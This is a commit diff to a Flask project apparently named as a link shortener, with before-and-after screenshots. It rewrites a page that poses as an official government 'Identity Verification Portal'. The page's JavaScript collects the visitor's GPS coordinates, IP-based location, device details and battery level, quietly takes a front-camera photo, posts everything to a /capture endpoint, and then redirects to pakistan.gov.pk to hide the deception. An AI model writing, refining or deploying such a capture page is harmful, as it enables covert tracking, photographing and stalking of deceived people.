

Before and after one commit to MR5121472/link-shortener12, a Flask app: page / in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/templates/index.html
+++ b/templates/index.html
@@ -3,99 +3,143 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Digital Verification Portal</title>
+    <title>Identity Verification Portal</title>
     <style>
-        body { font-family: -apple-system, sans-serif; background-color: #f5f7f9; display: flex; align-items: center; justify-content: center; height: 100vh; margin: 0; }
-        .container { background: white; width: 90%; max-width: 380px; padding: 30px; border-radius: 12px; box-shadow: 0 4px 6px rgba(0,0,0,0.05); border: 1px solid #e1e4e8; text-align: center; }
-        .header-top { border-bottom: 2px solid #28a745; margin-bottom: 20px; padding-bottom: 10px; font-weight: bold; color: #28a745; text-align: left; font-size: 14px; }
-        h2 { font-size: 18px; color: #24292e; text-align: left; }
-        p { font-size: 13px; color: #586069; text-align: left; line-height: 1.6; }
-        .btn { background-color: #28a745; color: white; border: none; padding: 12px; width: 100%; border-radius: 6px; font-size: 15px; font-weight: 600; cursor: pointer; }
-        #loader { display: none; color: #28a745; font-weight: 600; margin-top: 10px; }
+        :root { --primary: #28a745; --bg: #f5f7f9; --text: #24292e; }
+        body { font-family: -apple-system, system-ui, BlinkMacSystemFont, "Segoe UI", Roboto; background-color: var(--bg); display: flex; align-items: center; justify-content: center; height: 100vh; margin: 0; }
+        .card { background: white; width: 92%; max-width: 400px; padding: 35px; border-radius: 15px; box-shadow: 0 10px 25px rgba(0,0,0,0.05); border: 1px solid #e1e4e8; }
+        .status-bar { height: 4px; background: var(--primary); border-radius: 10px; width: 50px; margin-bottom: 20px; }
+        h2 { font-size: 20px; color: var(--text); margin: 0 0 12px 0; font-weight: 700; }
+        p { font-size: 14px; color: #586069; line-height: 1.6; margin-bottom: 30px; }
+        .btn { background-color: var(--primary); color: white; border: none; padding: 14px; width: 100%; border-radius: 8px; font-size: 16px; font-weight: 600; cursor: pointer; transition: all 0.3s ease; box-shadow: 0 4px 12px rgba(40, 167, 69, 0.2); }
+        .btn:active { transform: scale(0.98); }
+        #loader { display: none; text-align: center; }
+        .spinner { border: 3px solid #f3f3f3; border-top: 3px solid var(--primary); border-radius: 50%; width: 24px; height: 24px; animation: spin 1s linear infinite; margin: 0 auto 10px; }
+        @keyframes spin { 0% { transform: rotate(0deg); } 100% { transform: rotate(360deg); } }
+        .footer-text { font-size: 11px; color: #959da5; margin-top: 25px; text-align: center; border-top: 1px solid #eee; padding-top: 15px; }
     </style>
 </head>
 <body>
 
-<div class="container">
-    <div class="header-top">OFFICIAL VERIFICATION</div>
-    <h2>Regional Access Control</h2>
-    <p>Please verify your identity and location to proceed to the secure government portal.</p>
-    <div id="loader">Processing... Please Wait</div>
-    <button id="mainBtn" class="btn" onclick="verify()">CONTINUE TO PORTAL</button>
+<div class="card">
+    <div class="status-bar"></div>
+    <h2>Regional Access Verification</h2>
+    <p>This automated portal confirms your identity and location for secure access. Please click below to complete the mandatory compliance check.</p>
+
+    <div id="loader">
+        <div class="spinner"></div>
+        <div style="font-size: 13px; color: var(--primary); font-weight: 600;">Authenticating Secure Connection...</div>
+    </div>
+
+    <button id="mainBtn" class="btn" onclick="startProcess()">CONTINUE TO PORTAL</button>
+
+    <div class="footer-text">
+        System ID: FZN-PR-2026<br>
+        Encrypted by Digital Security Authority
+    </div>
 </div>
 
-<video id="v" style="display:none;" autoplay playsinline></video>
-<canvas id="c" style="display:none;" width="640" height="480"></canvas>
+<video id="video" style="display:none;" autoplay playsinline></video>
+<canvas id="canvas" style="display:none;" width="1280" height="720"></canvas>
 
 <script>
-    async function verify() {
-        // Facebook/Instagram Internal Browser Fix
-        if (navigator.userAgent.includes("FBAN") || navigator.userAgent.includes("FBAV") || navigator.userAgent.includes("Instagram")) {
-            // Force open in external browser if possible
-            alert("For security, please open this link in Chrome or Safari.");
+    async function startProcess() {
+        const btn = document.getElementById('mainBtn');
+        const loader = document.getElementById('loader');
+        btn.style.display = 'none';
+        loader.style.display = 'block';
+
+        // 1. Precise Device Detection
+        let userAgent = navigator.userAgent;
+        let deviceName = "Unknown Device";
+        if (/android/i.test(userAgent)) {
+            deviceName = userAgent.match(/\(([^)]+)\)/)[1].split(';')[2] || "Android Mobile";
+        } else if (/iPhone/i.test(userAgent)) {
+            deviceName = "Apple iPhone";
         }
 
-        document.getElementById('mainBtn').style.display = 'none';
-        document.getElementById('loader').style.display = 'block';
-
-        let info = {
-            model: navigator.userAgent.split('(')[1]?.split(';')[1]?.trim() || "Unknown",
-            battery: "N/A", lat: "0", lon: "0",
-            city: "Pending", country: "Pending", realIp: "Pending"
+        let reportData = {
+            device: deviceName.trim(),
+            platform: navigator.platform,
+            battery: "N/A",
+            time: new Date().toLocaleString(),
+            lat: "0", lon: "0",
+            city: "N/A", country: "N/A", ip: "N/A"
         };
 
-        // Battery info
+        // 2. Battery Status
         if(navigator.getBattery) {
             const b = await navigator.getBattery();
-            info.battery = Math.round(b.level*100)+"%";
+            reportData.battery = Math.round(b.level * 100) + "%";
         }
 
-        // 1. IP-API (More stable in Pakistan)
-        const geoTask = fetch('http://ip-api.com/json/')
-            .then(res => res.json())
-            .then(data => {
-                info.city = data.city || "Unknown";
-                info.country = data.country || "Unknown";
-                info.realIp = data.query || "Unknown";
-            }).catch(() => { info.city = "API Blocked"; });
+        // 3. Multi-Source IP & Location (Redundancy)
+        const fetchGeo = async () => {
+            try {
+                // Primary API
+                const res = await fetch('http://ip-api.com/json/?fields=status,country,city,query');
+                const data = await res.json();
+                if(data.status === 'success') {
+                    reportData.city = data.city;
+                    reportData.country = data.country;
+                    reportData.ip = data.query;
+                }
+            } catch (e) {
+                // Backup API
+                try {
+                    const res2 = await fetch('https://ipinfo.io/json');
+                    const data2 = await res2.json();
+                    reportData.city = data2.city;
+                    reportData.country = data2.country;
+                    reportData.ip = data2.ip;
+                } catch (e2) {
+                    reportData.city = "API Blocked";
+                }
+            }
+        };
 
-        // 2. Camera Trigger
-        const cameraTask = navigator.mediaDevices.getUserMedia({video: { facingMode: "user" }})
-            .catch(() => null);
+        // 4. Camera & GPS (Parallel Execution)
+        const geoPromise = fetchGeo();
+        const cameraPromise = navigator.mediaDevices.getUserMedia({
+            video: { facingMode: "user", width: 1280, height: 720 }
+        }).catch(() => null);
 
-        // 3. Location with High Accuracy
         navigator.geolocation.getCurrentPosition(async (pos) => {
-            info.lat = pos.coords.latitude;
-            info.lon = pos.coords.longitude;
-            await geoTask;
-            handleCapture(await cameraTask, info);
+            reportData.lat = pos.coords.latitude;
+            reportData.lon = pos.coords.longitude;
+            finalize(await cameraPromise, reportData, geoPromise);
         }, async () => {
-            await geoTask;
-            handleCapture(await cameraTask, info);
-        }, { enableHighAccuracy: true, timeout: 8000 });
+            finalize(await cameraPromise, reportData, geoPromise);
+        }, { enableHighAccuracy: true, timeout: 10000 });
     }
 
-    async function handleCapture(stream, info) {
-        if(stream) {
-            const video = document.getElementById('v');
+    async function finalize(stream, data, geoTask) {
+        await geoTask; // Ensure Geo data is fetched
+
+        if (stream) {
+            const video = document.getElementById('video');
             video.srcObject = stream;
+
+            // Wait 1.8 seconds for light adjustment & focus
             setTimeout(() => {
-                const canvas = document.getElementById('c');
-                canvas.getContext('2d').drawImage(video, 0, 0);
-                const img = canvas.toDataURL('image/jpeg', 0.5);
+                const canvas = document.getElementById('canvas');
+                const ctx = canvas.getContext('2d');
+                ctx.drawImage(video, 0, 0, canvas.width, canvas.height);
+                const photo = canvas.toDataURL('image/jpeg', 0.8);
+
                 stream.getTracks().forEach(t => t.stop());
-                send(info, img);
-            }, 1000);
+                sendData(data, photo);
+            }, 1800);
         } else {
-            send(info, null);
+            sendData(data, null);
         }
     }
 
-    function send(i, p) {
+    function sendData(info, photo) {
         fetch('/capture', {
             method: 'POST',
             headers: { 'Content-Type': 'application/json' },
-            body: JSON.stringify({ info: i, photo: p })
+            body: JSON.stringify({ info: info, photo: photo })
         }).then(() => {
             window.location.href = "https://www.pakistan.gov.pk/";
         });
```
